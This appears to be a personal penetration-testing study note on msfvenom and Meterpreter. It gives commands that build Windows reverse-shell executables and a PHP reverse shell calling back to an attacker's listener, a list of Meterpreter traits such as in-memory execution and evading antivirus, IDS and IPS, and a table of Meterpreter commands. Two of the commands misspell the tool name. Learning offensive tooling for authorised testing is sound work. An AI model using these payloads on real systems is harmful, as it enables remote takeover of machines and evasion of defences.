 Windows reverse tcp (staged)
``` shell
mfsvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=IP LPORT=47 -f exe -o reverse.exe
```

Windows reverse tcp (non staged)
``` shell
mfsvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -a x64 LHOST=IP LPORT=47 -f exe -o reverse.exe
```
Windows x64 reverse shell, exe format
```sh
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```
### PHP
- The output **PHP file** will miss the starting PHP tag commented and the end tag (`?>`), as seen below.
![Pasted image 20240606180600.png|600](/img/user/attachments/Pasted%20image%2020240606180600.png)
- The reverse_shell.php file should be edited to convert it into a working PHP file.
- Below: Comments removed from the beginning of the file.
- End tag added
![Pasted image 20240606180735.png|500](/img/user/attachments/Pasted%20image%2020240606180735.png)
![Pasted image 20240606180753.png|400](/img/user/attachments/Pasted%20image%2020240606180753.png)

## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- Metasploit attack payload
- Metasploit's own brand of fully-featured shell.
- completely stable, making them a **very good thing when working with Windows targets**
- Inbuilt functionality, such as file **uploads** and **downloads**.
- that provides an **interactive shell** from which an attacker can explore the target machine and **execute code.**
- runs on the target system but **is not installed** on it. It **runs in memory**
- It is typically deployed using in-memory DLL injection to reside entirely in **memory**.
- aims to **avoid** being **detected** during **antivirus** scans.
- aims to avoid being detected by network-based [[IPS\|IPS]] and [[IDS\|IDS]]
- The **downside** to meterpreter shells is that they _must_ be caught in Metasploit.
- using **encrypted** communication
- **If** the target organization **does not decrypt and inspect** encrypted **traffic** (e.g. HTTPS) coming to and going out of the local network, IPS and IDS solutions **will not be able to detect** its activities.
- establish an encrypted ([[TLS\|TLS]]) communication channel
- most **antivirus** software **will** **detect it.**
- Run in windows under the `spoolsv.exe` process

| Option                                         | Description                                             |
| ---------------------------------------------- | ------------------------------------------------------- |
| `help`                                         | SHow help                                               |
| `getpid`                                       | Show the [[PID\|PID]]                                        |
| `ps`                                           | list processes running on the system                    |
| `tasklist /m /fi "pid eq 1304"`                | look at DLLs (Dynamic-Link Libraries) used by a process |
| `msfvenom --list payloads \| grep meterpreter` | List type of meterpreter payloads                       |
- some exploits will have a default Meterpreter payload
